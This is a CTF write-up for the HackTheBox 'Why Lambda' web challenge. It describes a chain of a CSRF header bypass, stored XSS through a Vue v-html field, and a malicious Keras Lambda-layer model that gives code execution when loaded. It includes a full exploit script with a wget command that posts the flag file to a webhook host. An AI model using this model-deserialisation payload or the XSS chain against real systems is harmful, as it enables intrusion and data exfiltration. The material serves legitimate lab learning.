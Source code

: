 ```yaml
---
title: "HTB: Why Lambda"
date: 2025-07-15T22:20:00+08:00
draft: false
author: "Jack Sun"
tags:
  - CTFs
  - Writeups
  - HackTheBox
  - Cybersecurity
image: /images/writeups/HTB/why-lambda/banner.png
---
```


## Description

- 60 pts, Hard Web
- Written by ` MasterSplinter`

## Static Analysis

The `challenge/backend/model.py` file provides an example of training and saving a Keras ML model in a `h5` format. On further inspection, the application also provides a mechanism to load a pretrained model via the `POST /api/internal/model` endpoint.

This arrangement is reminiscent of a deserialisation attack. I came across this article after some googling: [https://mastersplinter.work/research/tensorflow-rce/](https://mastersplinter.work/research/tensorflow-rce/). The author explained that a `Lambda` layer can be introduced in the model to cause RCE when the model is saved then loaded using `tensorflow.keras.models.load_model()`.

Looking at the model submission endpoint a bit closer, it is protected by 2 decorators:

```py
@app.route("/api/internal/model", methods=["POST"])
@authenticated
@csrf_protection
def submit_model():
    ...
```

The `csrf_protection` decorator is easy to bypass; a nonce is not used and instead the decorator simply checks if the `X-SPACE-NO-CSRF` header is set to "1". The `authenticated` decorator does not seem bypassable - we will need to either forge or making use of an existing authenticated session to hit this endpoint.

In `challenge/backend/complaints.py`, there is a `check_complaints` function that gets called when a new complaint is created by calling `POST /api/complaint`. The `check_complaints` function involves a bot authenticating to the website, then clicking a button on the complaints page. If we can find a XSS vulnerability, we could leverage the authenticated bot to make a request to upload a malicious `h5` model to `/api/internal/model`, which tries to load the model, thereby triggering RCE.

Luckily, `challenge/frontend/src/components/ImageBanner.vue` makes use of `v-html` to render text, which is susceptible to XSS. This component is used in the dashboard to render the prediction. `prediction` is a field we can control when we create a new complaint by hitting `POST /api/complaint` as an unauthenticated user.

We now have all the gadgets we need to construct a full RCE attack chain :D

## Attack Chain

We first need to build and save a custom Keras model that when loaded, triggers RCE to exfiltrate the flag to a request bin we control.

```py
import tensorflow as tf


def exploit(x):
    import os

    os.system("wget --post-file=/app/flag.txt https://webhook.site/...")
    return x


model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Now, we need to get the complaints bot to submit this model to the server via XSS. We can do this by running javascript to take a base64 representation of the model, before converting and posting it:

```js
const dataurl = "data:text/plain;base64,{base64 of malicious model}";

fetch(dataurl)
  .then((res) => res.blob())
  .then((blob) => {
    const file = new File([blob], "exploit.h5");
    const data = new FormData();
    data.append("file", file);
    fetch("/api/internal/model", {
      method: "POST",
      body: data,
      headers: { "X-SPACE-NO-CSRF": "1" },
    });
  });
```

We minify the JS with the h5 payload and embed it in the `onerror` attribute of an error-present `img` element as follows:

```py
from base64 import b64encode

payload = ""

with open("exploit.h5", "rb") as f:
    exploit_h5 = f.read()

exploit_h5_b64 = b64encode(exploit_h5).decode()

payload += f"const dataurl = 'data:text/plain;base64,{exploit_h5_b64}';"
payload += "fetch(dataurl).then(res => res.blob()).then(blob => {const file = new File([blob], 'exploit.h5'); const data = new FormData(); data.append('file', file); fetch('/api/internal/model', {method: 'POST', body: data, headers: {'X-SPACE-NO-CSRF': '1'}});});"

prediction = f'<img src=x onerror="{payload}"></img>'
```

Finally, we make a request to POST a new complaint, which will cause the bot to visit the dashboard and trigger the XSS.

```py
import requests

BASE_URL = "http://<ip>/api"
COMPLAINT_URL = f"{BASE_URL}/complaint"

s = requests.Session()
s.headers["X-SPACE-NO-CSRF"] = "1"

s.post(
    COMPLAINT_URL,
    json={
        "description": "asdf",
        "image_data": "asdf",
        "prediction": prediction,
    },
)
```

## Full Exploit Script

```py
from base64 import b64encode
import requests
import tensorflow as tf


# Build malicious model
def exploit(x):
    import os

    os.system("wget --post-file=/app/flag.txt https://webhook.site/...")
    return x


model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")

# Build XSS payload
payload = ""

with open("exploit.h5", "rb") as f:
    exploit_h5 = f.read()

exploit_h5_b64 = b64encode(exploit_h5).decode()

payload += f"const dataurl = 'data:text/plain;base64,{exploit_h5_b64}';"
payload += "fetch(dataurl).then(res => res.blob()).then(blob => {const file = new File([blob], 'exploit.h5'); const data = new FormData(); data.append('file', file); fetch('/api/internal/model', {method: 'POST', body: data, headers: {'X-SPACE-NO-CSRF': '1'}});});"

prediction = f'<img src=x onerror="{payload}"></img>'

# Create a complaint, which causes the bot to visit the dashboard, triggering XSS
BASE_URL = "http://<ip>/api"
COMPLAINT_URL = f"{BASE_URL}/complaint"

s = requests.Session()
s.headers["X-SPACE-NO-CSRF"] = "1"

s.post(
    COMPLAINT_URL,
    json={
        "description": "asdf",
        "image_data": "asdf",
        "prediction": prediction,
    },
)
```
